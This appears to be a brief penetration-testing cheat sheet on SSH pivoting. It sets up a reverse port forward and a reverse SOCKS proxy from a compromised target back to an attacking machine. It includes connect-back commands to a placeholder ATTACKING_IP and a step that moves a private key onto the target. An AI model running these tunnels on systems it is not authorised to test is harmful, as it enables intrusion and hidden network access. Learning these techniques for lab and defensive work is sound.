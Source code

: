 ## Access your machine from the target using your creds (NOT ADVISED) or a key based system

#### 1: ssh-keygen to generate a new set of SSH keys, then store them somewhere safe.

#### 2: Copy the contents of the public key (.pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine.

#### You may need to create the "~/.ssh" directory and "authorized_keys" file first.

#### 3: On a new line type the following, then paste in the public key:

### Command = "echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty *

#### * This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

#### 4: Check if the SSH server is running:

#### sudo systemctl status ssh

#### sudo systemctl start ssh

#### 5: Transfaer the private key to the target box.

#### 6: Connect back with a reverse port forward:

#### ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

#### reverse proxy: 

#### ssh -R PORT USER@ATTACKING_IP -i KEYFILE -fN

